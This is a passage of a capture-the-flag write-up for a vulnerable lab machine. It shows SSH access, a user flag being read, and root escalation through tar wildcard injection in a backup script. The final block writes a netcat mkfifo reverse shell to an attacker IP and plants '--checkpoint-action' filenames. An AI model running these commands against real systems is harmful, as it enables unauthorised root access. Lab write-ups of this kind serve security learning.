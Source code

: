 There we go, we got our passphrase, let's go into ssh now:

![](Pasted image 20250402132444.png)

We are now able to read `user.txt`:

```
server-management@vulnnet:~$ cat user.txt
THM{907e420d979d8e2992f3d7e16bee1e8b}
```

We can use `linpeas` to check for a way to get into root:

![](Pasted image 20250402132806.png)

```
server-management@vulnnet:~$ cat /var/opt/backupsrv.sh
#!/bin/bash

# Where to backup to.
dest="/var/backups"

# What to backup.
cd /home/server-management/Documents
backup_files="*"

# Create archive filename.
day=$(date +%A)
hostname=$(hostname -s)
archive_file="$hostname-$day.tgz"

# Print start status message.
echo "Backing up $backup_files to $dest/$archive_file"
date
echo

# Backup the files using tar.
tar czf $dest/$archive_file $backup_files

# Print end status message.
echo
echo "Backup finished"
date

# Long listing of files in $dest to check file sizes.
ls -lh $dest
```

This command backs up **all files** in the directory. Since we control files in `/home/server-management/Documents`, we can inject malicious filenames that `tar` interprets as command-line arguments (e.g., `--checkpoint-action` to execute arbitrary code). Let's reproduce the following in order to get a root shell:

```
# Let's begin by generating a netcat reverse shell using msfvenom
msfvenom -p cmd/unix/reverse_netcat lhost=10.6.34.159 lport=9001 R
echo '#!/bin/bash' > shell.sh
echo "mkfifo /tmp/bqauesy; nc 10.6.34.159 9001 0</tmp/bqauesy | /bin/sh >/tmp/bqauesy 2>&1; rm /tmp/bqauesy" >> shell.sh # Replace contents with the generated by 
touch -- "--checkpoint=1"
touch -- "--checkpoint-action=exec=sh shell.sh"
chmod +x shell.sh
nc -lvnp PORT
```
